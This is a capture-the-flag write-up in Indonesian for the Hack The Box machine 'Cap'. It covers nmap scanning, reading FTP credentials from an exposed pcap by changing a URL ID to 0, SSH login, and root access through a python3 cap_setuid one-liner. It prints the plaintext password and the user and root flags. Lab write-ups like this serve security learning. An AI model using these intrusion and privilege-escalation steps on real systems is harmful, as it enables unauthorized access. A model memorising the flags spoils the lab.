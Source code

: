 # Information Gathering
## Nmap Scan
```
┌──(me㉿justakazh)-[~/htb/HTB_Machine/linux]
└─$ nmap -p- 10.10.10.245 --min-rate 1000 
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.61 seconds

┌──(me㉿justakazh)-[~/htb/HTB_Machine/linux/cap]
└─$ sudo nmap -p21,22,80 -sV -sS 10.10.10.245
[sudo] password for me: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 13:32 WIB
Stats: 0:01:58 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.97% done; ETC: 13:34 (0:00:00 remaining)
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.97% done; ETC: 13:34 (0:00:00 remaining)
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=12/29%Time=6770ECEF%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Sun,\x2029\x20Dec\x202024\x2006:17:16\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en
SF:\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x2
SF:0\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\
SF:x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"i
SF:mage/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css
SF:/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20
SF:rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x2
SF:0\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stat
SF:ic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOp
SF:tions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sun
SF:,\x2029\x20Dec\x202024\x2006:17:16\x20GMT\r\nConnection:\x20close\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20GET,\x
SF:20OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20
SF:\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bo
SF:dy>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20In
SF:valid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;
SF:RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest
SF:,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Sun,\x2029\x20Dec\x202024\x2006:17:21\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2
SF:\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found<
SF:/h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x2
SF:0server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x
SF:20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.99 seconds

```


# Getting User Flag

## Crendential in pcap file
saya mencoba untuk mengakses http://10.10.10.245/ dan saya mendapatkan tampilan dashboard seperti berikut ini
![[Pasted image 20241229142046.png]]

Pada side menu di sebelah kiri, terdapat 4 menu:

- **Dashboard**: Menampilkan grafik events.
- **Security Snapshot (5 Second PCAP + Analysis)**: Menjalankan capture traffic.
- **IP Config**: Menampilkan interface dan IP, mirip dengan perintah `ifconfig` pada terminal.
- **Network Status**: Menampilkan daftar jaringan yang terhubung, serupa dengan output dari `ss -tupln` atau `netstat`.

Di sini, saya mencoba mengakses **Security Snapshot (5 Second PCAP + Analysis)** dan diarahkan ke http://10.10.10.245/data/1. Hal yang menarik adalah ketika saya mengganti ID pada URL ke 2, 3, 4, dan seterusnya, saya justru diarahkan kembali ke http://10.10.10.245. Kemudian, setelah saya mencoba mengklik lagi menu **Security Snapshot (5 Second PCAP + Analysis)**, saya dapat mengakses http://10.10.10.245/data/2. Seperti yang tercermin pada nama menu tersebut, sepertinya setiap nomor data mewakili data baru yang diperbarui setiap 5 detik setiap kali menu ini diklik.

Saya sempat terjebak lama di sini, hingga akhirnya saya mencoba memasukkan ID dengan nilai 0. Setelah itu, saya mendapatkan file pcap yang berisi request FTP dari user **nathan**.

![[Pasted image 20241229143040.png]]

buka file 0.pcap pada wireshark dan kita akan mendapatkan user dan password tersebut

![[Pasted image 20241229143157.png]]

![[Pasted image 20241229143305.png]]

```
user:Buck3tH4TF0RM3!
```

### FTP Login
```
ftp 10.10.10.245 
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:me): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||51614|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Dec 29 07:04 user.txt
226 Directory send OK.
ftp> 
```

### SSH Login
```
┌──(me㉿justakazh)-[~/htb/HTB_Machine/linux/cap]
└─$ ssh nathan@10.10.10.245 
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[--- SNIP ---]
nathan@cap:~$ ls
user.txt                                    
nathan@cap:~$ cat user.txt                                  
65041xxxxxxxxxxxxxxxxxxx1531
```

# Getting Root Flag
## Capabilities (Linpeas)

![[Pasted image 20241229153703.png]]
setelah melakukan enumerasi menggunakan linpeas, disini saya mendapatkan `/usr/bin/python3.8`  memiliki capability  `cap_setuid` yang berarti kita dapat melakukan melakukan penyalah gunakaan capability tersebut dengan bersumber perintah untuk melakukan exploitasi dari gtfobins berikut 

- https://gtfobins.github.io/gtfobins/python/#capabilities

```
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cat /root/root.txt
376c3c628849037ce15418c1928db22d
#
```

dan kita berhasil mendapatkan root.